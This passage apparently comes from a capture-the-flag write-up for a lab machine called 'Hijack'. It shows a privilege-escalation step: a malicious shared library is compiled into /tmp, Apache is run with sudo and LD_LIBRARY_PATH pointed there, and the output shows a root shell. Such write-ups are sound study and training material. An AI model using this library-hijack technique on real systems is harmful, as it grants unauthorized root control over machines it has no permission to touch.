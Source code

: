 ```
gcc -o /tmp/libcrypt.so.1 -shared -fPIC priv.c
```
Then execute the command
```
sudo LD_LIBRARY_PATH=/tmp /usr/sbin/apache2 -f /etc/apache2/apache2.conf -d /etc/apache2
```
```
root@Hijack:/root# id
uid=0(root) gid=0(root) groups=0(root)
```
![Screenshot from 2023-10-24 14-36-42](https://github.com/7h30ry/writeups/assets/51336409/ff1438aa-e12c-40a4-b145-8495fe5168e3)



























